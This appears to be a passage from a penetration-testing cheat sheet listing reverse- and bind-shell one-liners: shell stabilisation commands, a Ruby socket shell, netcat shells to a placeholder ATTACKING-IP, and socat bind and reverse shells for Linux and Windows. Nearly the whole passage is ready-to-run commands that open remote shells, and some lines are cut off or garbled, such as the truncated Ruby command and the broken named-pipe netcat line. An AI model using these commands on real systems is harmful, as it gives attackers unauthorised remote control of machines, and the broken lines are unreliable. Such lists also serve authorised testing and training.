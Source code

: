   ```
</strong><strong>                                In reverse shell
</strong>reset
export SHELL=bash
export TERM=xterm-256color
stty rows &#x3C;num> columns &#x3C;cols>
</code></pre>

#### **Spawn Ruby Shell:** <a href="#toc475368999" id="toc475368999"></a>

* ```
  exec "/bin/sh"
  ```
* ```
  ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d
  ```

**Netcat:**

* ```
  nc -e /bin/sh ATTACKING-IP 80
  ```
* ```
  /bin/sh | nc ATTACKING-IP 80
  ```
* ```
  rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
  ```

#### Socket (Encrypted Shell):

{% embed url="https://erev0s.com/blog/encrypted-bind-and-reverse-shells-socat/" %}

#### Bind Shell:

```

# Victim machine

socat -d -d TCP4-LISTEN:4443 EXEC:/bin/bash // for linux

TCP4-LISTEN:4443 EXEC:'cmd.exe',pipes // for windows

# Attacker machine

socat - TCP4:<Victim IP>:4443

```

#### **Reverse Shell:** <a href="#toc475369001" id="toc475369001"></a>

```
# Attacker Machine

socat -d -d TCP4-LISTEN:4443 STDOUT

# Victim Machine

socat TCP4:<Attacker IP>:4443 EXEC:/bin/bash //Linux

TCP4:<Attacker IP>:4443 EXEC:'cmd.exe',pipes //Windows
```
